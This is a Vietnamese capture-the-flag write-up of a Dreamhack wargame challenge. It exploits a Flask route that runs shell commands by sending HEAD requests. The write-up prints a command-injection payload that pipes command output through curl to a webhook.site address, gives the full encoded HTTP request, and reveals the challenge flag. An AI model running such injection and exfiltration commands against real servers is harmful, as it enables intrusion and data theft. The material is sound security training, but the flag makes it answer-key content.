







# Đề bài 
Read the flag file XD
https://dreamhack.io/wargame/writeups/49219
# Solution 
Trang web này chứa 1 tính năng giúp ping `host` bằng `cmd` ở route `/`
```python
@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd
```
1. `methods=['GET']` nghĩa là Flask chỉ đăng ký route cho `GET`. Mọi method không được liệt kê (`POST`, `PUT`, `DELETE`...) sẽ bị Flask chặn ở tầng routing và trả về `405 Method Not Allowed`
2. Nếu method không phải là `GET` thì sẽ thực thi lệnh `cmd`

Mà khi bạn khai báo `methods=['GET']`, Flask tự động thêm `HEAD` và `OPTIONS` vào route (đây là hành vi mặc định của Werkzeug/Flask).
([Source](https://flask.palletsprojects.com/en/stable/quickstart/#http-methods))

Dùng Burp để gửi `OPTIONS` và xem header `Allow` để xem có method nào được cho phép

:::info
Server vẫn xử lý `HEAD` giống hệt `GET`, chỉ khác là server cắt bỏ body trước khi trả về.

Công dụng thật của HEAD ngoài đời: client muốn kiểm tra “file có tồn tại không / dung lượng bao nhiêu / đã đổi chưa” mà không cần tải cả nội dung để tiết kiệm băng thông.
:::
-> Payload:
```bash
<cmd> | curl -sS --data-binary @- https://webhook.site/<UUID>
```
1. `<cmd> |`
-> lấy output của lệnh rồi pipe sang `curl`.
2. `-sS`: `-s = --silent`, `-S = --show-error`
-> không hiện phần rác (progress bar) nhưng giữ lại báo lỗi.
3. `--data-binary` 
-> Bảo `curl`: “gửi dữ liệu này đi bằng `POST`, và gửi nguyên xi từng byte” (không bóp méo newline/khoảng trắng như --data hay -d làm)
4. `@<nguồn>`
-> Đọc dữ liệu từ `<nguồn>` 
5. `-` 
-> stdin

=> Flow: 
Thực hiện lệnh, đưa output sang `curl` làm body để gửi đến `https://webhook.site/<UUID>` với method POST (mặc định của  `--data-binary`). Sau đó truy cập vào webhook để đọc nó (out-of-band exfiltration)

Trước khi gửi request đến Burp thì hãy URL encode bằng Ctrl+U

```http
HEAD /?cmd=<cmd>+|+curl+-sS+--data-binary+%40-+https%3a//webhook.site/<UUID> HTTP/1.1
Host: host3.dreamhack.games:17949
Connection: close


```
## Exploit




-> Flag:
`DH{4c9905b5abb9c3eb10af4ab7e1645c23}`
